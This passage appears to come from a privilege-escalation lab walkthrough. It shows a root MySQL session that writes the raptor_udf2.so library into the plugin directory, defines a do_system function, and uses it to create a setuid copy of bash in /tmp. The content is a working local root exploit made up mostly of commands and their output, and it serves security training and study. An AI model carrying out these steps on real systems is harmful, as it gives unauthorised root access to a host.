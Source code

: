 - Run the MySQL commands:

```bash
user@debian:~/tools/mysql-udf$ mysql -u root
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 35
Server version: 5.1.73-1+deb6u1 (Debian)

Copyright (c) 2000, 2013, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
+--------------------+
2 rows in set (0.00 sec)

mysql> use mysql
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> create table foo(line blob);
Query OK, 0 rows affected (0.00 sec)

mysql> insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
Query OK, 1 row affected (0.00 sec)

mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
Query OK, 1 row affected (0.00 sec)

mysql> create function do_system returns integer soname 'raptor_udf2.so';
Query OK, 0 rows affected (0.00 sec)                                                                                                                         
                                                                                                                                                             
mysql> select do_system ('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');

+------------------------------------------------------------------+
| do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash') |
+------------------------------------------------------------------+
|                                                                0 |
+------------------------------------------------------------------+
1 row in set (0.01 sec)

mysql> exit
Bye
```
